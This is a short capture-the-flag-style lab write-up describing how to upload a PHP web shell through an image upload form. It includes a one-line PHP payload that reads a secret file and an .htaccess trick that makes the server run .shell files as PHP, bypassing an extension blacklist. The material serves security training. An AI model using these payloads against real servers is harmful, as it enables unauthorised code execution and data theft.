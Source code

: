 # Lab 04 - Web shell upload via extension blacklist bypass

## Vulnerable image upload function

1. Login and upload photo

2. View photo in new tab and look at GET request /files/avatars/images.jpeg

3. Create exploit.php file
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

4. Upload exploit.php instead of image

5. We need to create .htaccess file to change server configuration

- filename '.htaccess'
- Content-Type 'text/plain'
- paylaod 'AddType application/x-httpd-php .shell' -> execute *.shell files like php

